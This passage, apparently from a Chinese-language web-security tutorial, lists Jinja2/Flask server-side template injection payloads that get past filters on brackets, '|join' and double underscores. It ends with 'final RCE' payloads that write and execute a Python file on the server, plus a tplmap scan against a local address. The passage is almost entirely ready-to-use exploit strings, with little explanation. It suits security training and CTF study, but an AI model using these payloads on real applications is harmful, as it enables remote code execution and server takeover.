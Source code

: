 复制

##### **过滤了中括号`[`和`]`**

payload

```javascript
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

复制

##### **过滤了`|join`**

用`|format` payload

```javascript
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

复制

##### **无敌绕过的最终RCE**

绕过`[`，`]`检查，但不绕过`__`检查 使用该`set`函数来访问必需的`object（i）`类 `pop()`将检索file对象，然后使用我们的已知参数调用该对象 与初始RCE相似，这将创建一个python文件`/tmp/foo.py`并执行`print 1337`有效负载

```javascript
{%set%20a,b,c,d,e,f,g,h,i%20=%20request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337
```

复制

绕过所有黑名单检查的最终RCE （真牛逼）

```javascript
{%set%20a,b,c,d,e,f,g,h,i%20=%20request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)|attr((request.args.usc*2,request.args.mro,request.args.usc*2)|join)%}{{(i|attr((request.args.usc*2,request.args.subc,request.args.usc*2)|join)()).pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&class=class&mro=mro&subc=subclasses&usc=_&file=/tmp/foo.py&write=w&payload=print+1337
```

复制

### **8、神器tplmap**

github 需要环境：PyYaml

例子

```javascript
root@kali:/mnt/hgfs/共享文件夹/tplmap-master# python tplmap.py -u "http://192.168.1.10:8000/?name=Sea"                             //判断是否是注入点
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
```